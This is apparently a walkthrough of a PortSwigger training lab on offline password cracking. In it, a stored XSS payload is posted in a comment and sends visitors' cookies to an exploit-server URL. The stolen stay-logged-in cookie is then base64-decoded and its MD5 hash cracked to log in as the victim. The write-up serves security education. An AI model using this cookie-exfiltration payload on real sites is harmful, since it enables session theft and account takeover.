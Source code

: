 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-23T15:22:00Z
modDatetime: 2024-10-23T09:12:47.400Z
title: Offline password cracking
slug: auth-portswigger-lab-9
featured: false
draft: false
tags:
  - BSCP
  - Authentication
description:
  This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page. 
---
```


## Objective 

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

- `Your credentials:` wiener:peter
- `Victim's username:` carlos

## Solution 

Going through the lab objective, we know that there is XSS vulnerability exists and what we did his.. filled up all the details in post and in the comment field, instead of adding the some random text but we entered the following payload `<img src=x onerror=this.src='https://exploit-0a5500ba03e5afe48033843a012600ff.exploit-server.net/?c='+document.cookie>` and posted the comment 

Checking the Access log through the exploit server, we found the following cookies value 

![](../../assets/images/bscp/auth/auth-43.png)

Now let's copy the `stay-logged-in` cookie value and decoded it in a base64 format and found that this cookie belongs to `carlos` user just like the previous lab and suprisingly the password is also in MD5 hash format 

![](../../assets/images/bscp/auth/auth-44.png)

Decrypted MD5 hash and password will be `onceuponatime` 

![](../../assets/images/bscp/auth/auth-45.png)

Now login into `carlos` user with password as `onceuponatime` that solves the lab 

![](../../assets/images/bscp/auth/auth-46.png)